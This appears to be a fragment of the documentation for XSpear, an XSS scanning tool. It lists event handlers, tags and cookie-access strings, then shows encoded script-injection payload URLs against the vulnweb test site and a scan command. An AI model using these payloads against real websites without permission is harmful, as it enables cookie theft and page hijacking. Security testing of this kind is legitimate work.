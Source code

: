 ```
 + Available Event Handler: "onBeforeEditFocus","onAbort","onActivate","onAfterUpdate","onBeforeCopy","onAfterPrint","onBeforeActivate","onBeforeCut","onBeforeDeactivate","onChange","onBeforePrint","onBounce","onBeforeUnload","onCellChange","onBeforePaste","onClick","onBegin","onBlur","onBeforeUpdate","onDataSetChanged","onCut","onDblClick","onCopy","onContextMenu","onDataSetComplete","onDeactivate","onDataAvailable","onControlSelect","onDrag","onDrop","onDragEnd","onEnd","onDragLeave","onDragStart","onDragOver","onDragEnter","onDragDrop","onError","onErrorUpdate","onFinish","onFilterChange","onKeyPress","onHelp","onFocus","onInput","onHashChange","onKeyDown","onFocusIn","onFocusOut","onMessage","onMouseDown","onLoad","onLayoutComplete","onMouseEnter","onLoseCapture","onloadstart","onMediaError","onKeyUp","onMediaComplete","onMouseOver","onMouseWheel","onMove","onMouseMove","onMouseOut","onOffline","onMoveStart","onMouseLeave","onMouseUp","onMoveEnd","onPropertyChange","onOnline","onPause","onPaste","onReadyStateChange","onRedo","onProgress","onPopState","onOutOfSync","onRepeat","onResume","onRowExit","onReset","onResizeEnd","onRowsEnter","onResizeStart","onReverse","onRowDelete","onRowInserted","onResize","onStop","onSeek","onSelect","onSubmit","onStorage","onStart","onScroll","onSelectionChange","onSyncRestored","onSelectStart","onUnload","ontouchstart","onbeforescriptexecute","onTimeError","onURLFlip","ontouchmove","ontouchend","onTrackChange","onUndo","onafterscriptexecute","onpointermove","onpointerleave","onpointerup","onpointerover","onpointerdown","onpointerenter","onloadstart","onloadend","onpointerout"
 + Available HTML Tag: "script","img","embed","video","audio","meta","style","frame","iframe","svg","object","frameset","applet"
 + Available Useful Code: "document.cookie","document.location","window.location"

< Raw Query >
[0] http://testphp.vulnweb.com/listproducts.php?-
..snip..
[19] http://testphp.vulnweb.com/listproducts.php?cat=123%22%3E%3Cscript%3Ealert(45)%3C/script%3E&zfdfasdf=124fffff
[20] http://testphp.vulnweb.com/listproducts.php?cat=123%22'%3E%3Cmarquee%20onstart=alert(45)%3E&zfdfasdf=124fffff
[21] http://testphp.vulnweb.com/listproducts.php?cat=123%22'%3E%3Cdetails/open/ontoggle=%22alert(45)%22%3E&zfdfasdf=124fffff
[22] http://testphp.vulnweb.com/listproducts.php?cat=123%22'%3E%3Caudio%20src%20onloadstart=alert(45)%3E&zfdfasdf=124fffff
[23] http://testphp.vulnweb.com/listproducts.php?cat=123'%22%3E%3Csvg/onload=alert(45)%3E&zfdfasdf=124fffff

...snip...
```            

**to JSON**
```
$ xspear -u "http://testphp.vulnweb.com/listproducts.php?cat=123&zfdfasdf=124fffff" -v 1 -o json
```